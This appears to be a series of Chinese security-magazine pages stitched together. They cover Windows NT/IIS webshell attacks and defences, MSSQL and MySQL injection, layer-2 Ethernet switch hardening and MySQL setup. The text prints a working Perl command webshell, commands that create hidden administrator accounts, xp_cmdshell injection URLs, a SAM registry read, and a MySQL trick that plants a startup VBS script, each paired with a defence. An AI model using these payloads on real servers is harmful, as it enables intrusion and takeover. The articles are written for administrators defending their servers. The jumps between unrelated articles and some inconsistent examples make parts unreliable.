说起Fyodor的学习经历，起初在他还没设计Nmap的时候，他是在一家公司工作，叫做“Exploit World”。那时，他自己的站点叫做“Fyodor's Playhouse”，后来，他为了潜心研究Nmap，便一直在家里工作——说起那段日子，Fyodor就显得异常兴奋，那个时候为了测试Nmap，Fyodor买了好多的机器设备来组建网络，有五台装了Linux的机器，一台装有FreeBSD的机器，一台装有OpenBSD 2.5的机器，四台装有Solaris的机器以及两台HP工作站，组建成了一个Nmap的“实验基地”！这一切正造就了Nmap早期就准备在一个大网络系统中平稳运行的基础！夸张吗？！任何成功都不是那么容易获得的。

对于Nmap在《黑客帝国2》里的出现，Fyodor开始也有些不相信，因为他也是《黑客帝国》系列的一个忠实影迷，当他看到剧中女主角Trinity使用Nmap在网上横冲直撞的时候，他真的感到很兴奋。经过Fyodor仔细的观察，他说Trinity使用的是Nmap 2.54BETA25，该版本的发布日期是2001年的6月4日，她所利用的安全漏洞是在2001年2月8日被公布的，而如今Nmap目前已经开发到3.48版本——不管Trinity利用的是不是最新的安全漏洞，还是旧的漏洞，能在世界著名的《黑客帝国》系列电影中“跑龙套”，由此就可以感觉到Nmap在世界黑客中的普遍性了。

每个人对黑帽子黑客的行为都有不同的看法，有些人认为没有经过授权的端口扫描就是黑帽子行为，Fyodor也干过，但是他对在攻击后的系统主页留下自己的挑战“宣言”这种行为过于反感。

对于大家普遍关心的问题：Nmap的下一步是什么样子？Fyodor有着自己的见解，有些Nmap的用户想让他为Nmap加入一些新功能，就像另外一个扫描器Nessus里在client-server模式下自动扫描的模块一样，或者给一些服务端口加上漏洞数据库，比如Web、SMTP端口等等。Fyodor却说：“在UNIX环境下，设计一个最简单的工具来达到最有威力的效果是最完美的，Nmap已超过了‘简单工具’的范畴，但是我会一直让它更强大。因为Nessus已经在这方面做得很好，我不想给Nmap加入client/server的功能，因为补丁中有一个叫RNmap（Remote Nmap）的插件也具备这个功能。”

另外，Fyodor会加入支持更多的网络服务，通过TCP或者UDP端口的状态，更准确地判断出对方应用程序的名字和版本号，并且加入支持SSL和IPv6的功能。对于Nmap的用户，也可以通过fyodor@insecure.org或者fyodor@dhp.com来联系他。

### 为你的梦想而奋斗

最后，Fyodor对想进入安全领域的朋友说，安全界需要对你完全的信任和负责，如果你选定网络安全是你的事业，那就需要投入你全部的精力去学习和进步，克服一切困难，战胜自己，为了你的梦想而奋斗！

- 难度等级：中
- 适合对象：网管员
- 前置知识：Windows NT/2000/2003 Server管理经验，脚本语言知识

刘流：当一个服务器放在网络上，我们可以访问了，那就代表这个服务器可能要出现问题了，因为安全是一个整体，系统补丁、脚本补丁、第三方程序补丁等一系列补丁每个都需要详细地去设置、去关注、去防范，这样才能做到良好的安全。而预先设置好服务器各种系统自带程序、IIS权限、数据库权限等各种服务的连接权限又是非常重要的东西，所以，很多大中型网络才有80个这样庞大的网络管理员队伍，而战争，就在服务器权限与伪黑客间展开……

### WinNT 服务器权限与黑客的较量

文／图 服务器焦点、NetPK

随着网络的高速发展，现在朋友们都装上了宽带，做虚拟主机生意的提供商生意当然也越来越好了，做网站的朋友也比往年多了起来。但是现在的黑客们却喜欢上了在虚拟主机提供商的空间里放上一个Webshell（也叫网页木马），以取得服务器的管理权，这是让服务器管理员最头痛的事。黑客们通过各种Webshell可以在服务器里运行CMD命令，还可以复制、删除文件，在线编辑文件，建立超级用户等。Webshell在这里分很多种，如ASP、CGI、PHP、JSP的Webshell都有，现在还流行SQL注入的xp_cmdshell等，都属于Webshell中的一种。现在我们首先介绍的是黑客们称作为网页木马的各种Webshell的攻击与防范方法。同时，用这最简单的安全设置方法还能够防范网络上的大部分溢出攻击等，如著名的IDQ、IDA、WEBDAV及RPC溢出……都能让黑客取得你服务器的管理权，但是你通过这小小的安全配置，黑客们的溢出攻击你就不用再怕了。就算不打补丁也是安全的，相信吗？不信？请看下文！

攻击与防范方法其实都是非常简单的，所以一般熟悉网页制作、还懂点CMD命令的朋友们都能学会，在我看来没有太大的技术性可言，难度等级（初级）就是人人都可以学会的。不管你是有多年服务器管理经验的高手还是新手，这份教程都能作为你最为有效防范Webshell攻击及溢出攻击的方法参考资料。

### 基本ASP的WEBSHELL攻击与防范

以下我们以实例讲解ASP的3种Webshell攻击与防范方法（并提供Webshell源代码）：

- 例一：一种使用脚本绑定CMD命令

这是一种使用脚本绑定CMD命令的攻击方法，其实ASP的Webshell并不止这一种，后面还会介绍另外两种Webshell攻击与防范方法。只要黑客在你的服务器上放上了这种Webshell，你又没有适当的防范方法，那么你的服务器就会惨遭毒手，成了黑客的肉鸡了。

一般遭此毒手的服务器都是虚拟主机提供商的服务器，也有属于个人或公司的服务器。黑客是怎么样把这个Webshell传到你的服务器的呢？如果是传到虚拟主机提供商的Web空间的，一般都是虚拟主机提供商的客户自己传的^_^，因为虚拟主机提供商的客户本身就拥有上传软件的权限，并拥有HTTP服务的浏览地址。

客户使用这种Webshell，目的一般只是看看自己租用的服务器空间上存放了些什么文件，或通过这个Webshell盗窃服务器上的某些重要资料。个人或公司的服务器，黑客怎么把这个Webshell传到服务器空间上的呢？呵呵，一般是通过服务器上某个如论坛、下载系统的脚本漏洞，通过这些漏洞取得在WWW上80端口上传文件的权限，或通过某些漏洞使用TFTP服务把这个Webshell传到你的服务器上的。由于我们这里只讲解这些Webshell是怎么样攻击的，所以并不提及怎么样才能把这个Webshell传到服务器的空间上。本文假设你已经把这个Webshell传到了服务器空间上，并取得了HTTP的浏览地址，只要服务器是支持ASP的，你就能使用这个Webshell取得服务器系统的管理权了。这种后门非常隐藏，就算你重装了N次系统，打了N多的补丁也没效，因为这个漏洞是没有补丁的^_^，只要这个Webshell还存在，黑客找到这个Webshell的WWW浏览地址，你的服务器一样会变成黑客的肉鸡，所以危害性极大。

如下图1所示，我把一个文件名叫CMD.ASP的ASP脚本Webshell文件传到了一台服务器IP为192.168.0.18的服务器上，把这个文件放到了FTP根目录里的Webshell文件夹下，我们就能使用http://192.168.0.18/Webshell/cmd.asp 的地址访问这个Webshell了。我们可以在那个空白的表单里输入所有的CMD命令，如 `dir c:\` 等命令。如果你想在这台服务器里建立一个超级用户，可以输入两行命令，第一行输入 `net user netpk hacker /add`，然后点击执行CMD命令按钮，就建立了一个普通用户netpk；再输入第二行命令 `net localgroup administrators netpk /add`，这样就把刚才建立的普通用户netpk加入了超级用户管理级administrators组了。通过这些，我们可以确定这个Webshell有执行所有CMD命令的权限，你想干什么，不用我教你了吧，呵呵^-^。

下面附上这个cmd.asp脚本的源代码：（具体代码请看光盘“杂志相关”栏目）

你只要把上面的代码写在记事本里，保存扩展名为.ASP，再传到你的虚拟主机空间就可以运行了。这种绑定CMD命令的脚本攻防范方法有好几种。其实你如果要防范这种攻击，你只要把ASP中的FSO（Scripting.FileSystemObject）功能删除就行了，删除FSO权限方法就是在CMD的命令提示符下输入以下命令：

```cmd
Regsvr32 /u c:\winnt\system32\scrrun.dll
```

> （刘流：在实际操作的时候要更改成为你本地系统安装目录的实际路径，但是使用这种方法删除也太绝了一点，如果以后我们想使用FSO权限，那就用不了了呢。所以，建议不要使用这种方法删除FSO权限。）

但，显而易见，如果这样做，那么包括站点系统管理员在内的任何人都将不可以使用FileSystemObject对象了，这其实并不是站点管理员想要得到的结果，毕竟我们使用这个对象可以实现方便地在线站点管理。如果连系统管理员都没法使用了，那可就得不偿失了。但是不禁止这个危险的对象，又会给自己的站点带来安全漏洞。那么有没有两全其美的方法呢？有！具体方法如下：

我们可以做到禁止其他人非法使用FileSystemObject对象，但是我们自己仍然可以使用这个对象。方法如下：查找注册表中键值 `HKEY_CLASSES_ROOT\Scripting.FileSystemObject`，更改成为：

`HKEY_CLASSES_ROOT\Scripting.FileSystemObject2`

这样，在ASP中就必须这样引用这个对象了：`Set fso = CreateObject("Scripting.FileSystemObjectnetpk")`，而不能使用：`Set fso = CreateObject("Scripting.FileSystemObject")`。如果你使用通常的方法来调用FileSystemObject对象，就会无法使用了。

呵呵，只要你不告诉别人这个更改过的对象名称，其他人是无法使用FileSystemObject对象的。这样，作为站点管理者我们就杜绝了他人非法使用FileSystemObject对象，而我们自己仍然可以使用这个对象来方便地实现网站在线管理等等功能了！

但这样做还是有一定的危害性的，因为这样配置的方法并不是十分完善，只是简单地解决了FSO调用CMD命令和一些简单的ASP木马脚本。要知道Webshell并不是只有ASP这一种，如CGI、PHP、JSP等都有这样的Webshell。如果你的服务器同时配置了支持CGI、PHP、JSP等，那可就惨了，因为如CGI等这些Webshell是不需要FSO支持就能实现Webshell的。所以你还得向下看，以下还有一些值得大家注意的Webshell。

其实还有更简单实用的方法能防范这种使用ASP脚本绑定CMD命令的Webshell，配置防范方法只需要30秒就行了。防范方法等介绍完了CGI、PHP、JSP等Webshell再说，因为只要一种防范方法，就能防止这些脚本攻击及溢出攻击等。在最后我们介绍的防范方法，对我们提及到的所有能绑定CMD的Webshell都是绝对能有效防范的。

- 例二：使用FSO权限对文件管理的WEBSHELL攻击与防范方法

以下我们介绍的是海阳顶端ASP木马，这种Webshell能通过网页在线更改、编辑、删除、移动、上传、下载服务器上的任意文件。只要黑客给你的服务器传上这个ASP木马，你服务器上的所有文件就会控制在黑客的手上。黑客能在你的服务器干什么？就是上面提及到的更改、删除、移动……

如图2所示：

看到这个图，你也能想象到你的服务器最后会变得怎么样了。你服务器上的资料将没有隐私可言了，想黑你服务器上的主页，或是删除你服务器上的文件，都是点几下鼠标就能办到的了。这种ASP网络上各黑客网站均有下载，源代码在此就不写出来了。

防范方法：和例一的一样，这里不再赘述。

- 例三：免FSO对象就能使用的ASP木马

对于这种免FSO对象就能使用的ASP木马，由于少了FSO对象的支持，功能上当然不会很强大，只有浏览服务器上的文件目录、复制、移动文件、执行指定路径的程序文件等功能。值得注意的是，现在的虚拟主机提供商的虚拟主机大多数都还存在这个漏洞，看来这个漏洞那些服务器网管们是非得好好维护一下才行了。以下是当你浏览这个ASP木马时，所出现的图3。就连黑客基地的服务器也存在相同的漏洞。经本人测试结果，只要使用Webshell就能很容易地取得黑客基地的管理权，但人家说我是黑基的副站长，所以就不干这事了，呵呵。

你可以通过这个免FSO支持的ASP木马对服务器上的文件进行任意的复制、移动和执行程序。这个木马程序的功能虽然简单，但是用它来黑一个网站已经足够了。比如，我们可以把网站的首页移动到其他地方，然后我们再复制一个同名的黑客网页进去就行了；使用执行程序功能让服务器执行任意的木马程序，以取得服务器的ADMIN管理权等。

以下我给出这个免FSO对象的ASP源代码，代码如下：（详细代码请见光盘“杂志相关”栏目。）

你只要把上面的代码写在记事本里，保存扩展名为.ASP，再传到你的虚拟主机空间就可以运行了。

防范免FSO支持的ASP木马方法如下：

通过上面的代码，我们可以看出这段代码的Shell是通过shell.application建立shell对象的，我们只要在注册表里查找键值shell.application和wscript.shell，然后把这些键值删除，就能防止这一类的ASP木马攻击了。删除这些键值对你的服务器及ASP支持等不会造成影响，所以请放心删除。

### 构建免受FSO威胁虚拟主机

现在绝大多数的虚拟主机都禁用了ASP的标准组件：FileSystemObject，因为这个组件为ASP提供了强大的文件系统访问能力，可以对服务器硬盘上的任何文件进行读、写、复制、删除、改名等操作（当然，这是指在使用默认设置的Windows NT/2000下才能做到），但是禁止此组件后，引起的后果就是所有利用这个组件的ASP将无法运行，无法满足客户的需求。

如何既允许FileSystemObject组件，又不影响服务器的安全性（即：不同虚拟主机用户之间不能使用该组件读写别人的文件）呢？这里介绍本人在实验中获得的一种方法，下文以Windows 2000 Server为例来说明。

在服务器上打开资源管理器，用鼠标右键点击各个硬盘分区或卷的盘符，在弹出菜单中选择“属性”，选择“安全”选项卡，此时就可以看到有哪些账户可以访问这个分区（卷）及访问权限。默认安装后，出现的是“Everyone”具有完全控制的权限。点“添加”，将“Administrators”、“Backup Operators”、“Power Users”、“Users”等几个组添加进去，并给予“完全控制”或相应的权限。注意，不要给“Guests”组、“IUSR_机器名”这几个账号任何权限。然后将“Everyone”组从列表中删除，这样，就只有授权的组和用户才能访问此硬盘分区了。而ASP执行时，是以“IUSR_机器名”的身份访问硬盘的，这里没给该用户账号权限，ASP也就不能读写硬盘上的文件了。

下面要做的就是给每个虚拟主机用户设置一个单独的用户账号，然后再给每个账号分配一个允许其完全控制的目录。

如下图所示，打开“计算机管理”→“本地用户和组”→“用户”，在右栏中点击鼠标右键，在弹出的菜单中选择“新用户”，在弹出的“新用户”对话框中根据实际需要输入“用户名”、“密码”等信息。本例是给第一虚拟主机的用户建立一个匿名访问Internet信息服务的内置账号“IUSR_VHOST1”，即：所有客户端使用http://xxx.xxx.xxxx/访问此虚拟主机时，都是以这个身份来访问的。输入完成后点“创建”即可。可以根据实际需要，创建多个用户，如图4所示。

图4

现在新建立的用户已经出现在账号列表中了，在列表中双击该账号，以便进一步进行设置。在弹出的“IUSR_VHOST1”属性对话框中点“隶属于”选项卡，刚建立的账号默认是属于“Users”组，选中该组，“删除”，再点“添加”，添加一个Guest组的权限就可以了。

再打开“Internet信息服务”，找到Web页面的地址，并将硬盘上这个目录的权限设置成只有 iisuser 和 administrator 能访问，切换 IIS 属性对话框，打开“目录安全性”选项卡，点“匿名访问和验证控制”的“编辑”，在弹出的“验证方法”对话框，点“编辑”，弹出了“匿名用户账号”，默认的就是“IUSR_机器名”，点“浏览”，在“选择用户”对话框中找到前面创建的新账号“IUSR_VHOST1”，双击（图5）：


图5

此时匿名用户名就改过来了，在密码框中输入前面创建时为该账号设置的密码，OK，完成了！

经过设置后，“第一虚拟主机”的用户，使用 ASP 的 FileSystemObject 组件也只能访问自己的目录：F:\VHOST1 下的内容，当试图访问其他内容时，会出现诸如“没有权限”、“硬盘未准备好”、“500 服务器内部错误”等出错提示了。

> （刘流：如果该用户需要读取硬盘的分区容量及硬盘的序列号，那这样的设置将使其无法读取。如果要允许其读取这些和整个分区有关的内容，请右键点击该硬盘的分区（卷），选择“属性”→“安全”，将这个用户的账号添加到列表中，并至少给予“读取”权限。由于该卷下的子目录都已经设置为“禁止将来自父系的可继承权限传播给该对象”，所以不会影响下面的子目录的权限设置。）

### 基于 CGI、PHP、JSP 的 WebShell 及溢出攻击与防范

CGI、PHP、JSP 脚本也能绑定 CMD 命令，但基于 CGI 的 WebShell 功能权限与防范方法是不是都是一样的呢？答案是它们的 WebShell 权限基本相同，大同小异，但防范黑客使用脚本给你绑定 CMD 命令的方法却是完全不同的，因为别的语言脚本中要绑定 CMD 命令根本不需要 FSO 等对象的支持，所以就算你关了 FSO 对象，再在注册表里删除上面 ASP 的 WebShell 中例三中的 shell.application 和 wscript.shell 键值，也不能防范这些脚本的 WebShell。

由于 ASP、CGI、PHP、JSP 通过脚本绑定 CMD 命令的方法都是大同小异的，都能用一种很简单的方法就能完全防范这类的攻击，在此例中，我会把一种 30 秒内就能完成的安全配置，让任何的脚本程序都没法通过远程调用你的 CMD 命令，以达到完全防范脚本绑定 CMD 的目的。WebShell 的攻击方法我们在这里就作一个最后举例。

### 举例：CGI 的 WebShell 攻击与防范

只要黑客把一个 CMD.CGI 的 WebShell 传到你的服务器，那么黑客就能在你的服务器里调用 CMD 命令，并能运行你服务器里的所有 CMD 命令，如建立超级用户等，下图是使用这个 CMD.CGI 的 WebShell 运行 `DIR C:\` 命令。如果黑客在你的服务器上传了这个东西，呵呵，你可是欲哭无泪了。

下面给出这个 CMD.CGI 的代码（网络上也有很多黑客站提供下载的）：

```perl
use CGI qw(.standard);
print header(-charset=>gb2312);
$cmd=param("cmd");
$out=`$cmd 2>&1`;
print start_form,textfield("cmd",$cmd,60);
print end_form;
print pre($out);
```

上面就是这个 WebShell 的代码，还有一些 PHP 和 JSP 等的 WebShell，这里就不再作介绍了，因为攻击与防范的方法大同小异。通过上面这些例子，我们看出这几个 WebShell 都是调用了 NT 系统下的 cmd.exe 命令来执行命令的，只要我们对 NT 系统下的 cmd.exe 文件设置一定的权限，呵呵，那么黑客的这些 WebShell 都将没用武之地了。为了安全起见，我们还要对 dnet.exe、cacls.exe、telnet.exe、tftp.exe、ftp.exe、format.com、mountvol.exe、mshta.exe 等危险的命令做出权限设置。因为这些危险的文件默认的情况下都是允许来宾以上权限的用户访问及执行的，只有为这些文件设置了权限，这样才能确保真正的安全。这些危险的文件默认的情况下，都是存放在 C:\WINNT\SYSTEM32 的目录下的。设置权限的方法如下图所示，清除原来的所有其他用户访问这些命令的权限，然后只设置允许你正在使用的超级用户拥有使用这些命令的权限，比如说你正在使用的超级用户名是 administrator，那么，你就在权限设置里只允许用户名为 administrator 的用户使用这些命令。

通过上面这些简单的设置，就能让那些绑定你服务器里的 CMD 命令的 WebShell 全部失效，够简单吧。:）而且还能防止你的服务器在遭到黑客的溢出攻击成功后绑定 CMD 命令登录你的服务器。道理很简单，比如目前流光的 WebDAV 溢出，这些溢出攻击就是黑客通过溢出你的服务器后绑定你服务器里的 CMD 命令，然后 Telnet 登录你的服务器，取得你服务器上的系统管理权的。但一般黑客溢出成功后，都是只能绑定 SYSTEM 权限绑定你服务器的 CMD 命令的，而你已经把 CMD 命令设置了禁止 SYSTEM 权限访问，只能使用你设置的唯一一个你正在使用的超级用户名去访问 CMD 命令。所以就算黑客成功溢出后，都不能绑定你的 CMD 命令，那么黑客就登录不了你的服务器，你的服务器就是安全的了。

但这只能是相对的安全，因为有些溢出攻击黑客能直接把反向连接的木马文件传到你的服务器上，并能运行哦。呵呵，如最近出现的 Serv-U 溢出，如果你的 FTP 服务器使用了 Serv-U 的话，你又没有打上最新的安全补丁，让黑客溢出成功了，那么黑客可以不绑定你的 CMD 命令登录你的服务器，而是给你服务器传一个反向连接的木马后门。这种反向连接的后门是通过你的服务器向黑客的机器连接，而黑客只要在自己的机器监听，只要你的服务器中了这种后门，那么就算你的服务器安装了防火墙，并屏蔽了所有不使用的端口，黑客不能正向与你的服务器连接木马后门，但黑客给你传一个反向连接的木马，这个木马是通过你的服务器连接黑客的机器的，只要你的服务器向黑客的机器发出连接请求，黑客就能取得你服务器的控制权，而这种反向木马攻击可以完全不依赖于 NT 系统下的 CMD。

那么，我们如何防止这一类的反向木马攻击呢？方法很简单，那就是安装一个具有防止反向连接木马的防火墙，如天网及 BlackICE 防火墙等，都是具有防止反向连接功能的，因为这些防火墙都有应用程序访问网络权限设置功能，服务器上的任何一个程序要访问网络，都会弹出一个警告窗口，必须要服务器的管理员同意允许该应用程序访问网络后，这些程序才能访问网络，这项功能正好用于防范反向木马。下面举一个例子，如你的服务器安装了天网防火墙，如果黑客成功溢出了你的 Serv-U 服务器，并给你传了一个反向连接的后门木马，这个后门木马在你的服务器的 C:\MM.EXE，黑客所在 IP 地址是 192.168.0.18，现在黑客要对你服务器的这个反向连接木马进行连接，只要黑客在你服务器上运行了这个反向木马，那么你的天网防火墙就会弹出一个警告窗口，如图6所示。

我们可以通过这个警告窗口看到黑客的真正 IP 地址及黑客使用这个反向木马连接的端口、所使用的协议，还有这个反向连接木马在你服务器的所在位置等信息，只要你点击禁止按钮，这个程序将不能连接黑客的机器，我相信你不会那么笨，点击允许这个后门连接黑客的机器吧，在你没有点击允许的情况下，这个后门是不会连接黑客的机器成功的。


图6

通过这个例子，我们可以看出，只要我们给一些危险的命令如 CMD 等设置了权限，再安装一个可以防止反向连接木马的防火墙，那么那些所谓的溢出攻击将不能对你的服务器造成危害了。

### MSSQL 注入攻击的防护

MSSQL 注入攻击是比较直接和危害比较大的一种攻击方式，那些所谓的黑客们能够利用它直接取得系统权限，今天我们就来看看如何通过系统设置防止这种攻击：

首先要申明的是，并不是通过这个设置就能保证你的服务器的安全，安全是一个整体，然而整体又正是由这些部分构成的！

#### 对策一

伪黑客：假设这个地方可以注入

```text
http://localhost/bbs/news.asp?id=5
我们往往采取下面这种方法来攻击
http://localhost/bbs/news.asp?id=5;exec master..dbo.xp_cmdshell 'net user alpha /add'--
http://localhost/bbs/news.asp?id=5;exec master..dbo.xp_cmdshell 'net localgroup administrators alpha /add'--
```

好了，alpha 已经是系统管理员了！

管理员：如何防止呢？

看看他们是怎么实现的，通过调用 SQL 里的 master 里的扩展存储过程里的 xp_cmdshell（如下图7），来执行系统指令！

我们只要点右键删除这个扩展存储，上面的攻击方法便不起作用了！当然你也可以用下面这句：`sp_dropextendedproc 'xp_cmdshell'`，来删除 xp_cmdshell。

#### 对策二

伪黑客：如果 MSSQL 数据库里 xp_cmdshell 扩展被删掉了，不用怕，我们还有方法的哟！


```text
http://localhost/bbs/news.asp?id=5;exec master..dbo.sp_addextendedproc xp_cmdshell @dllname='xplog70.dll';--
```

通过这样一条我们就又把 xp_cmdshell 给恢复了！

管理员：看来我们的设置还不够彻底，好，在 C 盘里直接搜索 xplog70.dll，找到了，删了它，好了，这个世界清静了，至少那帮人不会直接执行系统指令了！！

#### 对策三

伪黑客：你以为这样就可以了吗？你错了，呵呵，我方法还有很多！只要你用的是 sa 账户，我就还有方法：

```text
http://localhost/bbs/news.asp?id=5;exec xp_regread 'HKEY_LOCAL_MACHINE','SECURITY\SAM\Domains\Account','F'
```

看看，说不定我们就能得到管理员的密码哟！加一个启动项什么的自然不在话下！

管理员：看来我得下狠的了，看我这样，我把这些扩展都删除了

- Xp_regaddmultistring（向注册表中增加项目）
- Xp_regdeletekey（从注册表中删除一个键）
- Xp_regdeletevalue（从注册表中删除一个键值）
- Xp_regenumvalues（列举主键下的键值）
- Xp_regread（读取一个主键下的键值）
- Xp_regremovemultistring（从注册表中删除项目）
- Xp_regwrite（向注册表中写入数据）

看你嚣张，呵呵，想从注册表里面搞，没门！其实 MSSQL 的注入攻击防御还有很多很多东西！比如导出特殊文件、破解网站密码，太多太多了，今天就简单给大家介绍这些。甚至我要说，即使你按这个设置了，你的系统还是危险的，还是脆弱的！《黑客防线》2003 年 9 期曾经刊登过 MS SQL 安全配置的相关文章！有意者请参阅此文！

### 网里的 MYSQL

#### 数据库入侵防御问题

在网络上，很多系统（win2k、linux）都安装了 MYSQL 数据库。的确，这个数据库非常受大家欢迎，但这么受欢迎的数据库安装完毕有个漏洞，就是数据库的 ROOT 的账号密码为空，现在网络上很多机器都有这类毛病。我曾经扫描了一个 C 类地址，竟发现数据库 Root 密码为空的机器多达 89 台，因为 MYSQL 不像 MSSQL 数据库那样可以调用 XP-Shell 命令，所以很多人找到这样的漏洞也不会利用。下面我就介绍一下，如何利用 Win2k 下 Root 密码为空的 MYSQL 数据库：

如果你机器上安装了 MYSQL，就可用如下命令：`#mysql -u root -h 192.168.0.1`。连接成功后，看看服务器有什么数据库：`mysql> show databases`，默认安装时会有 MYSQL、TEST 这两个数据库；`mysql> use test`，进入 test 后，看看里面有什么数据：`mysql> show tables`，那里什么也没有，那么我就在里面建立了一个新表：`mysql> create table lonely (abc text)`。这里我创建了一个表名为 lonely，字段为 abc 的表格。

我们再写一个增加 Admin、密码为 123 的用户的命令。如下：

```sql
mysql> insert into a values ("setwshell=createobject(""WScript.shell"")");
mysql> insert into a values ("a=wshshell.run(""cmd.exe /c net Admin 123 /add"",0)");
mysql> insert into a values ("b=wshshell.run(""cmd.exe /c net localgroup Administrators admin /add"",0)");
mysql> select * from a 输出表为一个 VBS 的脚本文件；
mysql> select * from a into outfile "c:\\docume~1\\alluse~1\\开始菜单\\程序\\ceshi.vbs";
```

我们把表中的内容输入到启动组中，是一个 VBS 的脚本文件！注意 `\` 符号。现在所有工作都完成了，下面就是等机器重启，机器重启后，ceshi.vbs 也会跟着启动，到时候它机器里就有用户为 Admin、密码为 123 的超级用户了。

防御方法：对于这种攻击方法的防御最简单、安全的方法就是给 MYSQL 的 Root 用户增加口令。方法如下：本地设置密码：`mysql u root password 密码`，远程设置密码：

```sql
grant select, update, delete on *.* to root@'%' identified by "密码" 如下：
mysql> grant select,update,delete on *.* to root@'%' identified by "123"\c
mysql> grant select,update,delete on *.* to root@'%' identified by "123"
query ok, 0 rows affected (<0.34 sec>)
```

好了，常见的 winnt 服务器权限设置相关的话题就讲得差不多了，希望大家能清楚地设置好自己的服务器权限，并且将服务器上的第三方程序的访问权限设置好，这样就能比较好地防护住普通的攻击了，而你的服务器也就会更加地安全！

脚本小子：由于以太网第二层的特殊地位，决定了一旦成功地被攻击，更高层的安全设施也就失去了意义。本文介绍的这些防范方法，只是缓解了这些问题，而要从根本上解决这类问题，必须使用成本更高的方法，例如，在这些缓解办法的基础上引入 IPSec 等。


## Defence: 以太网第二层协议

文 / delphij

攻册中我们谈到了针对以太网第二层协议的 3 种攻击方法，由于第二层协议位于 IP 层之下，因此，其安全性也没有得到充分的重视。这 3 种攻击需要的技术一个比一个复杂，但很显然，都是能够实现的，而且，笔者自己也曾遇到和处理过这样的攻击。这里给出一些缓解攻击效果的方法，这些方法能够非常有效地缓解攻册中提到的这 3 种攻击。

为了阻止这样的攻击成功，可以采用下面几个简单的交换机策略（均以 Cisco 系列为例）。

对于第一种攻击，简单地说，就是绑定 MAC 能够出现的端口。然而，这也意味着会损失一定的灵活性（一旦更换端口，则端口被 shutdown）。操作如下：

```text
set port security 2/1 enable 00-90-2b-03-34-08
set port security 2/1 age 1440
set port security 2/1 violation shutdown 600
```

前两个命令将 MAC 地址绑定到 2/1 端口上，最后一个的含义则是如果 2/1 端口和其他端口已经绑定的 MAC 发生重复，则将其关闭 600 分钟。

> （脚本小子：注意，关闭 `shutdown` 端口是一个非常严厉的措施，也许并不适合所有的网络配置。可以把 `shutdown` 替换为 `restrict`，让交换机丢弃可能存在问题的包，而让其他包通过，例如，交换机级联的情形。当然，这意味着可能会损失一定的安全性。）

针对第三种攻击，需要在每一台机器上设置网关的永久 MAC 记录（在绝大多数操作系统中，这一工作可以通过 `arp -s` 来完成）。例如：

```text
arp -s 192.168.1.1 ab:aa:79:f8:ab:37
```

另一种方法，则是使用 SSL 或 TLS 连接，并验证证书。然而，这需要服务器端的支持，并且劫持者仍然可以中断或者干扰连接，尽管他们无法获得通讯的真实内容。

针对第二种攻击，可以在结合前两项措施的基础上，限制每个端口上可以学习的 MAC 地址数量（前提是攻击者不可能控制许多端口）：

```text
set port security 1/2 maximum 5
```

这个命令将端口 1/2 可以学习的 MAC 数量限制为 5 个，这样，攻击者将无法耗尽 CAM。

在我们介绍的 3 种攻击中，防守一方都处于劣势——为了提高安全性，必须降低系统的灵活性，并增加配置的成本。由于一个系统的安全是由系统中最不安全的那一部分决定的，因此，往往被人们忽视的第二层安全，就会成为受到攻击的目标。因此，第二层安全，在网络的规划和设计中，是一个不能忽略的部分。

### TIPS: 网络七层协议

七层协议自上而下分别是：应用层、表示层、会话层、传送层、网络层、数据链路层以及物理层。物理层（The Physical Layer），主要指如何确保在物理媒体上的传输，保证发送“1”接收的还是“1”，速率是多少，是双向还是单向，接头有几根线等等。在物理层上面是数据链路层（The Data Link Layer）。

Layer），主要是组织数据，如将数据划分成帧，确保其顺序传输，并处理由接收侧传来的应答帧（Acknowledgement Frames）。

在数据链路层上面是网络层（The Network Layer），主要是如何控制网络从源到目的地的路径，同时也处理不同网络路径之间不同速率、不同的编址方式、不同的包长度和不同的协议等问题。

在网络层上面是传送层（The Transport Layer），传送层从上面的会话层（The Session Layer）接受数据，如果需要，将其分成较小的单位并确保所有这些部分能正确地到达另一端。

传送层上面是会话层（The Session Layer），它在不同的设备间建立联系，一个会话允许原始数据在传送层内传输并提供增强服务，用来进行远程登录到分时系统或在两个设备间进行文件的传输。

会话层上面是表示层（The Presentation Layer）。表示层已不再关心传送的具体比特，而是处理所传输信息的句法和语义。表示层将各计算机对字符和数字的不同表示方法转换到网络能统一传输和理解的抽象的数据结构。

在表示层上面是应用层（The Application Layer），它包括了一系列不同的协议。

难度等级：中

适合读者：数据库管理员

前置知识：MySQL 基础

脚本小子：MySQL 是互联网上最流行的数据库之一，它通常用来与 PHP 连接，MySQL 的优点很多，除了具有易用性和相对较高的性能，它还提供了简洁并且有效的安全机制。然而，当使用 MySQL 的默认安装时，尤其是使用空管理员密码和对缓冲区溢出攻击的漏洞，常常使它成为最易被攻击的对象。本文描述了最基本的步骤，以使 MySQL 数据库免受内部和外部的攻击。

### MYSQL 安全防范

本文的实验都假设 PHP 模块已经安装在了 Apache Web 服务器上了，并且被放在了目录 `/chroot/httpd` 下。除此以外，我们还作了如下的假设。

- MySQL 数据库仅被同主机上的 PHP 使用；
- 默认的管理工具比如 mysqladmin、mysql 和 mysqldump 等，被用来管理数据库。另外，远程的数据库备份将使用 SSH 协议执行。

为了获得更高的安全性能，对于 MySQL 的安装和配置，应该与以下的安全要求相符合：

- MySQL 数据库应该在被改变了默认根目录的环境下运行；
- MySQL 进程必须使用一个在系统进程中唯一的 UID/GID；
- 对 MySQL 的访问仅限于本地；
- 保证 MySQL 根账户的密码不易被猜测；
- 禁止对数据库的匿名访问；
- 删除系统自带的所有的示例数据库和表。

#### 安装 MySQL

在我们开始加强 MySQL 的安全性之前，必须在服务器上安装它。我们在操作系统上来创建一个组和用户账号，并使之唯一，使之与 MySQL 数据库相关联，方法如下：

```bash
pw groupadd mysql
pw useradd mysql -c "MySQL Server" -d /dev/null -g mysql -s /sbin/nologin
```

## 1. 编译 MySQL

我们先来在目录 `/usr/local/mysql` 下编译和安装 MySQL 软件：

```bash
./configure --prefix=/usr/local/mysql --with-mysqld-user=mysql --with-unix-socket-path=/tmp/mysql.sock --with-mysqld-ldflags=-all-static
make
su
make install
strip /usr/local/mysql/libexec/mysqld
scripts/mysql_install_db
chown -R root /usr/local/mysql
chown -R mysql /usr/local/mysql/var
chgrp -R mysql /usr/local/mysql
```

